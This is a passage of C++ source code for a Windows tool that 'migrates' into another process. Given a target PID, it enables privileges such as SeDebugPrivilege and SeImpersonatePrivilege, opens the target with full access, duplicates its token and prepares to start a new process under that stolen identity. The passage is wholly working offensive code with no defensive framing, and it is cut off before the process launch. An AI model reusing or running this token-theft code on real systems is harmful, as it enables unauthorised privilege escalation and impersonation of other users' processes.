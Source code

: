 ```cpp
       }

       DWORD pid = atoi(argv[1]);
       cout << "\n[***] Starting the migrate functionality, requested PID => " << pid << " [***]\n";
       cout << "(!) Check if the process have an required permissions...\n";
       Sleep(1000);

       if (!check())
       {
              cout << "(!) Trying to set the necessary privileges.\n";
              HANDLE currentProcessToken;
              OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &currentProcessToken);
              wchar_t *privs[9] = {L"SeAssignPrimaryTokenPrivilege", L"SeTcbPrivilege", L"SeCreateGlobalPrivilege", L"SeDebugPrivilege", L"SeImpersonatePrivilege", L"SeIncreaseQuotaPrivilege", L"SeProfileSingleProcessPrivilege", L"SeSecurityPrivilege", L"SeSystemEnvironmentPrivilege"};
              for (int i = 0; i < 9; i++)
              {
                      if (!SetPrivilege(currentProcessToken, privs[i], true))
                      {
                             wprintf(L"Access denied to set %s \n", privs[i]);
                             cout << "\t(-) You does not have the specified privilege. Migration aborted.\n";
                             ExitProcess(0);
                      }
              }
       }
       cout << "\t(+) All required Permissions was successfull granted.\n\n";  
    
       cout << "(!) Trying to open Handel for requested PID.\n";
       Sleep(1000);
       HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
       if (!hProcess) {
              cout << "\t(-) Can not open handle for requested PID";
              ExitProcess(0);
       }
       cout << "\t(+) The HANDLE was created success.\n\n";

       cout << "(!) Try to Duplicte existen tokens of the requested PID " << pid << "\n";
       HANDLE NewTokens;
       if (!OpenProcessToken(hProcess, TOKEN_ALL_ACCESS, &NewTokens))
       {
              cout << "\t(-) Denied to handle Process Tokens\n";
              ExitProcess(0);
       }
       cout << "\t(+) Extracting tokens was successfull\n";
       Sleep(500);

       HANDLE hPrimaryToken;
       if (!DuplicateTokenEx(NewTokens, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &hPrimaryToken))
       {
              cout << "\t(-) Denied to Duplicate process Tokens\n";
       }
       cout << "\t(+) Duplicate tokens was successfull\n\n";
       Sleep(1000);

       cout << "(!) Try to execute new process with duplicated tokens.\n";
       STARTUPINFO si;
       PROCESS_INFORMATION pi;
       ZeroMemory(&si, sizeof(si));
       si.cb = sizeof(si);
       si.lpDesktop = L"WinSta0\\Default"; //window station and desktop of interactive user
```